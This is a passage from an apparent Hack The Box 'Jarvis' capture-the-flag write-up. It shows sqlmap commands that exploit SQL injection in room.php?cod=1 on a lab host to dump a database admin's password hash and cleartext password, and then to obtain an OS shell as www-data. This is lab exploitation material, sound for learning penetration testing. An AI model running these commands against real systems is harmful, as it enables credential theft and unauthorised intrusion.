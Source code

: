 #### DBadmin password

```bash
luc@kali:~/HTB/Jarvis$ sqlmap -u http://10.10.10.143/room.php?cod=1 --user-agent "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" --passwords
...
[*] DBadmin [1]:
    password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
    clear-text password: imissyou
...
```

#### Shell

```bash
luc@kali:~/HTB/Jarvis$ sqlmap -u http://10.10.10.143/room.php?cod=1 --user-agent "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" --os-shell
...
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'www-data'
```
